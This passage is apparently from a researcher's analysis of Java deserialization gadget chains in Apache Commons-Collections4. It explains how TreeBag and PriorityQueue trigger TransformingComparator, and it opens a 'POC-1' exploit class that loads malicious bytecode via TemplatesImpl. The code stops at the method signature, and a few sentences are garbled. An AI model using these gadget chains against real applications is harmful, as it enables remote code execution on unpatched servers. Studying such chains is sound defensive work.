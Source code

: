 > `TreeBag` is a standard implementation of `SortedBag`. `TreeBag` uses `TreeMap` to store data and use the specified `Comparator` to sort. `TreeBag` is inherited from `AbstractMapBag` to implement the `SortedBag` interface. When initializing `TreeBag`, a new `TreeMap` is created and stored in the member variable `map`, while the `Comparator` used for sorting is directly stored in `TreeMap`.

<img src="./images/3.png" alt="">

<img src="./images/4.png" alt="">

> When deserializing `TreeBag`, the deserialized `Comparator` object will be handed over to `TreeMap` instantiated, and the `doReadObject` method of the parent class is called for processing.

<img src="./images/5.png" alt="">

> In the doReadObject method, the put` data will be put`TreeMap`

<img src="./images/6.png" alt="">

> For this ordered set of data storage, it will definitely be sorted when deserializing the data. `TreeBag` relies on the feature of `TreeMap` when `put` data, it will call `compare` to sort it to achieve the storage of data order.

<img src="./images/7.png" alt="">

> And in the `comparator` method is called for comparison, to use `TransformingComparator` to trigger subsequent logic

<img src="./images/8.png" alt="">

# Commons-Collections4 Analysis
## POC-1
> This utilization chain uses the `CommonsCollections3` chain to use the constructor of the `TrAXFilter` class to trigger the `TemplatesImpl#newTransformer` method to load malicious bytecode, and uses the `CommonsCollections2` chain to trigger the `TransformingComparator.compare()` through `PriorityQueue` and then calls the `transforming` method of the passed `transformer` object.

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 10:55 am
 */
public class CommonsCollections4PriorityQueue {

    public static void CC4() throws CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException, NotFoundException {
```